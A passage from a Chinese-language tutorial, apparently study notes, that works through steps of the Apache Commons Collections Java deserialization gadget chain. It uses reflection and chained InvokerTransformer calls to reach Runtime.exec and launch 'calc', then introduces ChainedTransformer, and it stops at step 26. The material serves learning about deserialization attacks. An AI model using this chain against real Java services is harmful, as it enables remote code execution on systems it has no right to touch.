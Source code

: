 23.   ==**然后先解决Runtime不能序列化的问题**==

      ```java
      public static void main(String[] args) throws Exception {
          // 虽然Runtime不能序列化，但是它的class可以序列化
          Class<Runtime> runtimeClass = Runtime.class;
          // 序列化的问题解决了，然后就是要拿到一个它的实例，通过getRuntime方法拿到它的实例
          Method runtime = runtimeClass.getDeclaredMethod("getRuntime");
          Runtime run = (Runtime) runtime.invoke(null);
          Method exec = runtimeClass.getDeclaredMethod("exec", String.class);
          // 这样Runtime不能序列化的问题就解决了
          exec.invoke(run,"calc");
      }
      ```

24.   ==**然后在把`InvokerTransformer`用上**==

      ```java
      public static void main(String[] args) throws Exception { 
          
          // new Class[]{}中写的是getDeclaredMethod方法的参数类型的class,然后后面new的object是参数的值，没有参数就是为空或者null
          // 为什么这么写呢？因为InvokerTransformer类中的transform方法就是一个反射调用，忘记了可以翻一下
          Method runtime = (Method) new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
          // 这里就拿到了Runtime的实例
          Runtime run = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(runtime);
          // 然后在根据实例去调用exec方法
          new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(run);
      }
      ```

25.   **因为这个三行代码都是后一个依赖前一个而且都是调用的transform方法，这个时候就有一个类可以减少工作量：就是我们在第五步中的`ChainedTransformer`**类中的`transform`方法，它可以帮助我们缩减代码量

      ```java
      public class ChainedTransformer implements Transformer, Serializable {
          // 这个方法实现了遍历一个数组然后分别调用其中的transform方法
          public Object transform(Object object) {
              for (int i = 0; i < iTransformers.length; i++) {
                  object = iTransformers[i].transform(object);
              }
              return object;
          }
          
          // 然后在看看这个ChainedTransformer类的构造方法
          // 可以看到这个iTransformers的值的内容咋们new的时候传入进来，是可以控制的
          public ChainedTransformer(Transformer[] transformers) {
              super();
              iTransformers = transformers;
          }
      }
      ```

26.   **==那么代码进行进一步改进==**
